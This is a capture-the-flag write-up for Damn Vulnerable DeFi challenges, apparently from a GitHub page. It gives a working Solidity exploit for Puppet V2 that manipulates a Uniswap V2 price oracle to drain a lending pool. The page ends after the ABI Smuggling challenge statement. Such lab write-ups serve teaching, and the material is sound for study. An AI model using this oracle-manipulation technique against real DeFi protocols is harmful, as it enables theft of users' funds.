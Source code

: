 ## 9. Puppetv2
```
The developers of the previous pool seem to have learned the lesson. And released a new version.

Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. Shouldn’t that be enough?

You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance at risk!

Save all funds from the pool, depositing them into the designated recovery account.
```

I initially tried to get fancy here, but it didn't work out (i.e. I didn't understand the function calls). It's the same problem, but now with UniswapV2. The hardest part is finding any good documentation on how to actually call the functions.

This time there are two (2) tokens involved and still the ability to swap for ETH. For each token registered with the exchange, there's a `UniswapV2Pair` between it and every other token. The `UniswapV2Router` can be given a `path` of tokens it should swap for, and it will iteratively swap out tokens until reaching the end using these pairs. For example, DVT -> DAI -> WETH would swap DVT for DAI, and then DAI for WETH. This can be done via `UniswapV2Router.swapTokensForExactTokens`, but it doesn't seem to actually transfer the tokens to you. I think maybe it just keeps it in accounting?

The function `UniswapV2Router.swapExactTokensForETH` is the same idea but the last token has to be WETH. The big difference is that it unwraps the WETH and sends you ETH. 

Alright, we've fucked around, let's find out. The exploit is as follows:
1. Approve the `UniswapV2Router` for all your DVT
2. Use the `UniswapV2Router` to swap your DVT for ETH
3. Borrow everything from the `PuppetV2Pool`

<br/>

```
    function test_puppetV2() public checkSolvedByPlayer {
        address[] memory path;
        path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);

        token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
        uniswapV2Router.swapExactTokensForETH(PLAYER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_WETH_RESERVE * 99/100, path, player, block.timestamp);

        weth.deposit{value: player.balance-(0.1 ether)}();
        weth.approve(address(lendingPool), weth.balanceOf(player));
        lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE);
        token.transfer(recovery, POOL_INITIAL_TOKEN_BALANCE);
    }
```


## 15. ABI Smuggling
```
There’s a permissioned vault with 1 million DVT tokens deposited. The vault allows withdrawing funds periodically, as well as taking all funds out in case of emergencies.

The contract has an embedded generic authorization scheme, only allowing known accounts to execute specific actions.

The dev team has received a responsible disclosure saying all funds can be stolen.

Rescue all funds from the vault, transferring them to the designated recovery account.
```
